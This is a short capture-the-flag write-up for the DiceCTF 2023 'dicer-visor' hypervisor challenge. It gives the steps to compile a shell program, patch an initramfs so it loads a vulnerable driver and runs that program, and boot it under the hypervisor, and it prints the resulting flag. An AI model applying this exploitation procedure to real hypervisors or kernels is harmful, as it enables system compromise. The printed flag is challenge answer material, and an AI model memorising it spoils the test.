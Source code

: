 
##### To run the solution

compile `run_shell.c`
```
gcc -static run_shell.c -o run_shell      

```

* unzip `initramfs.cpio.gz`

```
7z x initramfs.cpio.gz
cpio -idv < initramfs.cpio
```

* copy run_shell in the `initramfs` directory
* update the `init` file present in `initramfs` directory to run `run_shell`
```sh
#!/bin/sh

#mount -t proc none /proc
#mount -t sysfs none /sys
#mount -t debugfs none /sys/kernel/debug

echo 1 > /sys/module/rcutree/parameters/rcu_cpu_stall_suppress

/sbin/insmod /vuln.ko
mknod /dev/exploited-device c 32 0

echo "Run shell"
chmod ugo+x /run_shell
exec /run_shell
echo "DONE"
```

* zip the `initramfs` by running the following command in the  `initramfs` directory
```
find . -print0 | cpio --null --create --verbose --format=newc | gzip --best > ../initramfs_patched.cpio.gz
```

* run the binary
```
./dicer-visor bzImage initramfs_patched.cpio.gz
Dicer-visor - DiceGang Security Hypervisor
[*] Created VM
[*] Loaded kernel image: bzImage
[*] Loaded initrd image: initramfs_patched.cpio.gz
[*] Starting up VM

[    0.036000] RETBleed: WARNING: Spectre v2 mitigation leaves CPU vulnerable to RETBleed attacks, data leaks possible!
[    0.364005] [!] Vulnerable Driver Loaded
[    0.368006] [!] driver ioctl issued - cmd: 57005
[    0.380006] [!] driver ioctl issued - cmd: 48879
dice{dicer-visor-rules}
[1]    3790835 segmentation fault (core dumped)  ./dicer-visor bzImage initramfs_patched.cpio.gz
```


##### References: 
* [Pwning a hypervisor - DiceCTF 2023](https://nikoschalk.github.io/posts/dicectf23/dice-visor/)
